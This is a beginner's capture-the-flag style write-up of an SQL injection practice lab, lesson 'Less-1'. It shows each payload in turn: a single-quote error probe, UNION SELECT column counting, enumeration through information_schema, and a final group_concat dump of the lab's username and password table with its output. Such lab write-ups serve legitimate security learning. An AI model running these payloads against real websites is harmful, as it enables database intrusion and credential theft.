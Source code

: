 Hello guys.
This is the first time im doing something related to SQL injection. I have basic knowledge about sql syntax and functions...

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String"


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb Your Password:Dumb```

in the page.

and using different numbers after 2, I got different Login names and passwords.
So it seemd like ```?id=x```, is going into an sql command like
```SELECT _____ FROM _____ WHERE id = x;```

As the name of the Lesson suggests I start with a single quote Error
so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

This is because there are odd number of single quotes.
However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 
```UNION SELECT 1 -- -```
It returned an error: 
``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:
```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 
``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,
```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!
```Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:
-https://www.sqlinjection.net/numeric-parameters/
-https://portswigger.net/web-security/sql-injection/union-attacks
-https://noobsec.net/sqli-cheatsheet/#Database-Contents

